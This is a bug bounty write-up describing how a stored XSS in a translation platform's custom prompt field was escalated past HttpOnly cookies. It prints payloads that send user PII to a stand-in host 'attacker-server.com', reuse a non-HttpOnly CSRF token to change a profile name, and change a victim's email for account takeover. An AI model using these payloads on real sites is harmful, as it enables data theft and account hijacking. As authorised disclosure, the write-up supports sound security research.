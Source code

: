 # How We Turned a Medium XSS into a High Bounty by Bypassing HttpOnly Cookie

#### **﷽**

During a recent security assessment on a private bug bounty program with my friends @0d\_sami and @karemelsaqary , We discovered a Stored Cross-Site Scripting (XSS) vulnerability that was initially triaged as medium severity. However, by uncovering a way to bypass HttpOnly cookies, I was able to escalate its impact, resulting in a high-severity classification and a 3x increase in the bounty. Let’s dive into the details of this finding and how I achieved this escalation.

***

## **The Initial Discovery**

The target application was a common platform used for website translations, featuring team management, project management, and an AI-powered section. While testing for privilege escalation and injection attacks, I stumbled upon an interesting input field in the AI prompts section. Specifically, there was a "select bar" for choosing prompt types, but at the end of the list, there was an option to create a custom prompt type. This immediately caught my attention as a potential vector for XSS.

I tested the input field with standard XSS payloads and successfully triggered a stored XSS vulnerability. However, there were two significant limitations:

1. **Character Limit**: The input field was restricted to 255 characters, which made crafting a payload challenging.
2. **HttpOnly Cookies**: The session cookies were protected by the HttpOnly flag, preventing JavaScript from accessing them.

Despite these limitations, I reported the vulnerability, expecting it to be classified as medium severity due to the restricted impact. The triage team confirmed this assessment, stating that the HttpOnly flag mitigated the risk of cookie theft, leaving only the potential for script execution.

<figure><img src="../.gitbook/assets/image (304).png" alt=""><figcaption></figcaption></figure>

***

## **Escalating the Impact**

While the initial finding was valid, I wasn’t satisfied with the medium severity classification. I began exploring ways to increase the impact of the vulnerability. Here’s how I did it:

### **1. Expanding the Attack Scope**

I discovered that projects could be made public, significantly widening the attack surface. If an attacker could lure users to join their project and view the AI prompts, the XSS payload would trigger for all those users. While this increased the potential impact, it still wasn’t enough to convince the security team to classify the vulnerability as high severity.

<figure><img src="../.gitbook/assets/image (302).png" alt=""><figcaption></figcaption></figure>

### **2. Leaking Sensitive User Data**

Next, I focused on finding ways to exfiltrate sensitive data. During my testing, I identified an endpoint (`/backend/settings/change_account`) that leaked all user PII (Personally Identifiable Information) if an incorrect request was sent Like Requesting it without providing the `X-CSRF-TOKEN:` header or without the required parameters and it was very very strange behavior. The challenge was crafting a payload within the 255-character limit to exploit this.

After some experimentation and assistance from AI to optimize the payload, I came up with the following:

{% code overflow="wrap" %}
```javascript
fetch('/backend/settings/change_account').then(r => r.json()).then(d => location = 'https://attacker-server.com?data=' + encodeURIComponent(JSON.stringify(d))).catch(console.error);
```
{% endcode %}

This payload forced the victim’s browser to make a request to the vulnerable endpoint, leaking all user data and sending it to my Burp Collaborator server.

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### **3. Bypassing HttpOnly for CSRF Tokens**

While the session cookies were protected by the HttpOnly flag, I noticed that the CSRF token was stored in a non-HttpOnly cookie. This token was also included in the headers of requests to sensitive endpoints, such as the one used to change user passwords. By leveraging the XSS vulnerability, I could extract the CSRF token and use it to perform actions on behalf of the victim.

Here’s the payload I used to change the victim’s profile name:

{% code overflow="wrap" %}
```javascript
<script>fetch('/backend/settings/change_account',{method:'POST',headers:{'X-Csrf-Token':'fkel9z9je2','Content-Type':'application/x-www-form-urlencoded'},body:'step=real_name&real_name=hacked+0x88'}).then(r=>r.json()).then(console.log)</script>
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (307).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (301).png" alt=""><figcaption></figcaption></figure>

### **4. Achieving Account Takeover**

To escalate the attack further, I aimed to change the victim’s email address, which would allow for a full account takeover. However, the request to change the email required an additional parameter (`_token`) that wasn’t stored in any cookie. After some investigation, I found that this token was leaked in the HTML content of the victim’s profile page. By making a request to the profile endpoint and exfiltrating the HTML, I was able to extract the `_token` and use it in another XSS payload to change the victim’s email:

{% code overflow="wrap" %}
```javascript
<script>fetch('/api/front/user/change-email',{method:'POST',headers:{'Content-Type':'application/x-www-form-urlencoded'},body:'new_email=t@t.co&_token=tokeforvictim'}).then(r=>r.json()).then(console.log)</script>
```
{% endcode %}

***

## **Additional Exploitation Scenarios**

Beyond account takeover, I demonstrated other severe impacts that could result from the XSS vulnerability, including:

1. **Ad Fraud**: Injecting malicious advertisements into the page.
2. **SEO Manipulation**: Injecting backlinks to manipulate search engine rankings.
3. **Cryptojacking**: Injecting scripts to mine cryptocurrency without the user’s consent.

<figure><img src="../.gitbook/assets/image (303).png" alt=""><figcaption></figcaption></figure>

The security team ultimately agreed with my assessment, reclassifying the vulnerability as high severity and awarding a significantly higher bounty. This finding serves as a reminder that persistence and creativity can turn seemingly minor vulnerabilities into critical security issues.

<figure><img src="../.gitbook/assets/image (305).png" alt=""><figcaption></figcaption></figure>

Stay curious, and happy hunting!

<figure><img src="../.gitbook/assets/image (306).png" alt=""><figcaption></figcaption></figure>

**سُبْحَانَكَ اللَّهُمَّ وَبِحَمْدِكَ ، أَشْهَدُ أَنْ لا إِلَهَ إِلا أَنْتَ ، أَسْتَغْفِرُكَ وَأَتُوبُ إِلَيْكَ**
